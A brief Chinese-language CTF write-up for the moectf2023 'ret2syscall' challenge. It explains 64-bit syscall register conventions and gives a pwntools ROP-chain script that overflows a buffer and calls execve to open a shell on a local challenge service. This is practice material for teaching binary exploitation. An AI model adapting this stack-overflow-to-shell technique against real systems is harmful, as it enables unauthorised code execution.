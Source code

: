 ```yaml
---
title: moectf2023 - ret2syscall
date: 2023/9/26 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - syscall
excerpt: 利用ret2syscall漏洞在64位程序中执行execve，成功获取shell。
---
```


## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别:
(32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall))  
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
